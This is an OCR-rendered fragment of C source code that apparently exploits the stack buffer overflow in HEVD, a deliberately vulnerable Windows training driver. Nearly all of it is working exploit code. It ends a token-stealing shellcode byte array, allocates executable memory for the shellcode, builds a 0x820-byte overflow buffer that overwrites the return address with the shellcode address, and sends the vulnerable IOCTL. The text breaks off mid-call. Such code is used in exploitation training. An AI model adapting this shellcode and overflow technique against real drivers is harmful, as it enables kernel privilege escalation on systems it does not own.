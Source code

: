 ```c
    0x8b, 0xf8, 0x8b, 0xc1, 0x8d, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x8b, 
    0x40, 0x04, 0x8b, 0x58, 0xfc, 0x3b, 0xde, 0x75, 0xf6, 0x2d, 0xb8, 
    0x00, 0x00, 0x00, 0x05, 0xf8, 0x00, 0x00, 0x00, 0x89, 0x38, 0x61, 
    0x8b, 0xc8, 0x8b, 0xc1, 0x5d, 0xc2, 0x08, 0x00
};

int main()
{
    HANDLE hHEVD = CreateFileA(lpFileName,
                GENERIC_READ | GENERIC_WRITE,
                FILE_SHARE_READ | FILE_SHARE_WRITE,
                NULL,
                OPEN_EXISTING,
                FILE_ATTRIBUTE_NORMAL,
                NULL);

    if (INVALID_HANDLE_VALUE == hHEVD) {
        printf("[!] Failed to get handle to HEVD device\n");
        return 1;
    }
    printf("[+] Obtained handle to device %s: %p\n", lpFileName, hHEVD);

    HANDLE hHeap = GetProcessHeap();
    if (NULL == hHeap)
    {
        printf("[!] Failed to get handle to process heap\n");
        return 2;

    }
    printf("[+] Obtained handle to process heap: %p\n", hHeap);

    LPVOID Shellcode = VirtualAlloc(
        NULL,
        sizeof(StealTokenShellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    if (NULL == Shellcode)
    {
        printf("[!] Failed to allocate RWX memory for shellcode\n");
        return 4;
    }
    printf("[+] Allocated RWX memory for shellcode at: %p\n", Shellcode);
    memcpy(Shellcode, StealTokenShellcode, sizeof(StealTokenShellcode));

    LPVOID InBuffer = HeapAlloc(hHeap, HEAP_NO_SERIALIZE | HEAP_ZERO_MEMORY, 0x824);
    if (NULL == InBuffer)
    {
        printf("[!] Failed allocate space for input buffer\n");
        return 3;

    }
    printf("[+] Allocated space for input buffer %p\n", InBuffer);
    memset(InBuffer, 0x41, 0x820);
    *(DWORD*)(((PCHAR)InBuffer) + 0x820) = (DWORD)Shellcode;

    printf("[+] Sending HEVD_IOCTL_BUFFER_OVERFLOW_STACK IOCTL to %s\n", lpFileName);
    DWORD lpBytesReturned = 0;  
    BOOL IOCTLSent = DeviceIoControl(
        hHEVD,
        HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
        InBuffer,
```